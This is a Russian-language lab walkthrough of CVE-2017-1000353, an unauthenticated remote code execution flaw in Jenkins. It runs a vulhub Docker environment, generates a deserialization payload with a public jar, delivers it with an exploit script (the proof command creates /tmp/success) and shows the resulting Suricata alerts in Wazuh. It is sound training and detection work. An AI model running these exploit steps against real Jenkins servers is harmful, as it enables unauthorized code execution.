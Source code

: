 # CVE-2017-1000353

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2017-1000353](https://nvd.nist.gov/vuln/detail/CVE-2017-1000353)
* [https://www.opencve.io/cve/CVE-2017-1000353](https://www.opencve.io/cve/CVE-2017-1000353)

Jenkins версий 2.56 и более ранних, а также 2.46.1 LTS и более ранних уязвимы для удаленного выполнения кода без проверки подлинности. Уязвимость удаленного выполнения кода без аутентификации позволяла злоумышленникам передавать сериализованный Java-объект SignedObject в интерфейс командной строки Jenkins, который затем десериализовался с использованием нового ObjectInputStream в обход существующего механизма защиты на основе черного списка.

### Экслуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После успешного запуска по адресу http://ваш-ip:8080/ будет доступна страница Jenkins

<figure><img src="../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

Для реализации данной уязвимости нужно сгенерировать полезную нагрузку с помощью этого [файла](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar)

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
```

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Далее с помощью [эксплоита](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py) доставить полезную нагрузку&#x20;

```
python3 exploit.py http://ваш-ip:8080 jenkins_poc.ser
```

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

В результате эксплуатации был создан файл /tmp/success&#x20;

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>
